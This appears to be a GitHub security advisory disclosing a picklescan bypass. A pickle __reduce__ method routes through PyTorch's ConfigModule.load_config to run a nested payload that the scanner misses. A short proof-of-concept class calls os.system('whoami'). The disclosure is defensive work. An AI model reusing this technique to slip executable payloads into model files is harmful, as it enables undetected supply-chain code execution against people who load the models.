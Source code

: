 ### Summary

Using torch.utils._config_module.load_config function, which is a pytorch library function to execute remote pickle file.

### Details

The attack payload executes in the following steps:

First, the attacker craft the payload by calling to torch.utils._config_module.load_config function in reduce method
Then when the victim after checking whether the pickle file is safe by using Picklescan library and this library doesn't dectect any dangerous functions, decide to pickle.load() this malicious pickle file, thus lead to remote code execution.

### PoC

```
import pickle
from torch.utils._config_module import ConfigModule

class Evil:
    def __reduce__(self):
        return (os.system, ('whoami',))

class EvilTorchUtilsConfigModuleLoadConfig:
    def __reduce__(self):
        evil_payload = pickle.dumps(Evil())
        return ConfigModule.load_config, (None, evil_payload)
```

### Impact

Who is impacted? Any organization or individual relying on picklescan to detect malicious pickle files inside PyTorch models.
What is the impact? Attackers can embed malicious code in pickle file that remains undetected but executes when the pickle file is loaded.
Supply Chain Attack: Attackers can distribute infected pickle files across ML models, APIs, or saved Python objects.

### Corresponding

https://github.com/FredericDT
https://github.com/Qhaoduoyu

